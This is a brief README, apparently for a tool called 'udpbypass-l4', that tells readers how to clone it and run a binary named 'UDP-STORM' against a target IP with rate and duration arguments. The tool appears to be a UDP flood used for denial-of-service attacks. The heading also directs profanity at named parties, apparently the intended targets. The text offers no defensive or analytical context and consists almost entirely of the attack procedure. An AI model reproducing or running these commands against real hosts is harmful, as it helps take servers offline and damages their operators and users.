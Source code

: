 How to use (fuck metrostroi and shakhmuhametik):

1. Linux (ubuntu, kali)

- git clone https://github.com/ItsFaiter/udpbypass-l4.git
- cd udpbypass-l4
- chmod 777 UDP-STORM 
- ./UDP-STORM
- ./UDP-STORM IP 200 -1 60
